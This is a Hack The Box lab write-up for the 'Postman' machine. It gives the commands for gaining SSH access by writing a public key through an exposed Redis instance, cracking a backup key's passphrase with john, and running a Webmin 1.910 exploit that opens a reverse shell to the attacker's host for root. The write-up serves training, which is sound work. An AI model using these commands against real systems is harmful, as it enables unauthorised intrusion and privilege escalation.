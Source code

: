 ```yaml
---
title: "Hack The Box - Postman"
tags: [linux,easy,redis , webmin , ssh key , john , Matt , webmin 1.910]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled.png)

## NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%201.png)

⇒ We found an exploit for webmin but its authenticated. We couldnt login using defualt credentials.

Authenticated Exploit : [https://github.com/roughiz/Webmin-1.910-Exploit-Script](https://github.com/roughiz/Webmin-1.910-Exploit-Script)

### Exploiting REDIS

[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%202.png)

→ So looks like we are able to write our public key to redis user authorized_keys.

1) Writing public key to a file

**(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt**

2) Importing file into redis

**cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit**

3) Saving the public key to authorized_keys

**config set dir ./.ssh**

**config set dbfilename "authorized_keys"**

**save**

→ SSH'ed in as redis user :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%203.png)

## Privilege Escalation to User

⇒ We found an backup ssh key in /opt folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%204.png)

→ Cracked the key password using john :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%205.png)

Password : **computer2008**

→ We were not able to ssh in as user Matt or root using the ssh key. We were able to switch to Matt user using the key password :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%206.png)

## Privilege Escalation to Root

⇒ We were able to login on webmin using Matt user password. By default webmin runs as root so we can exploit this to get shell as root

Exploit : [https://github.com/roughiz/Webmin-1.910-Exploit-Script](https://github.com/roughiz/Webmin-1.910-Exploit-Script)

**python webmin_exploit.py --rhost 10.10.10.160 --lhost 10.10.14.4 -p computer2008 -u Matt -s True --lport 9001**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Postman%20Box%207bd639e86f7540b19860e8f7252bec9b/Untitled%207.png)

